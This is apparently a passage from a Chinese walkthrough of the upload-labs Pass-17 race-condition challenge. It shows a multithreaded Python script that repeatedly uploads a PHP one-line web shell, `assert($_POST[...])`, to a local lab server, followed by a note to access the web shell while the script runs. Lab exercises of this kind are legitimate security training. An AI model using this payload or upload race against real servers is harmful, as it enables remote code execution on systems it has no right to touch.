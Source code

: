 ```python
-----------------------------6696274297634
Content-Disposition: form-data; name="upload_file"; filename="17.php"
Content-Type: application/octet-stream

<?php assert($_POST["LandGrey"])?>
-----------------------------6696274297634
Content-Disposition: form-data; name="submit"

上传
-----------------------------6696274297634--
"""
    code, head, html, redirect, log = hh.http('http://127.0.0.1/upload-labs/Pass-17/index.php', raw=raw)
    print(str(code) + "\r")


pool = ThreadPool(10)
pool.map(upload, range(10000))
pool.close()
pool.join()
```

在脚本运行的时候，访问Webshell

![](image/17-1.png)
